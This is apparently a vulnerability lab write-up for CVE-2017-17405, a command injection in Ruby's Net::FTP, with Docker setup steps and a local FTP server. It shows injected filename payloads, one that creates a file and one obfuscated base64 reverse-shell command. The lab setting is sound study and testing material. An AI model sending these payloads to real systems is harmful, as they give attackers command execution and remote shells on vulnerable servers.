

# Ruby Net::FTP Module Command Injection Vulnerability (CVE-2017-17405)

The Ruby Net::FTP module is an FTP client that uses the `open` function when opening a local file during uploading and downloading files. In ruby, the `open` function borrows system commands to open files, and does not filter shell characters, causing arbitrary commands to be injected if the user controls the file name.

## Environment Building

Compile and run the vulnerability environment:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, you can see an HTTP service by visiting `http://your-ip:8080/`. The role of this HTTP service is that we access `http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`, which will be from example.com:2121 The ftp server downloads the file vulhub.txt to the local and returns the content to the user.

## Vulnerability recurrence

Because this is an FTP client vulnerability, we need to run a server that can be accessed first. For example using python:

```
# Install pyftpdlib
Pip install pyftpdlib

# Start an ftp server in the current directory, and listen to the `0.0.0.0:2121` port by default.
Python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

Then you can start exploiting the vulnerability. Inject the command `|touch${IFS}success.txt` (the space is replaced by `${IFS}`, the reason is not), send the following packet (the ftp server specified by uri is a simple one that I run with python) Ftp server, which does not need to place any files):


Then enter the docker container, you can see that success.txt has been created:


Execute the bounce shell command `|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`, successfully bounce:

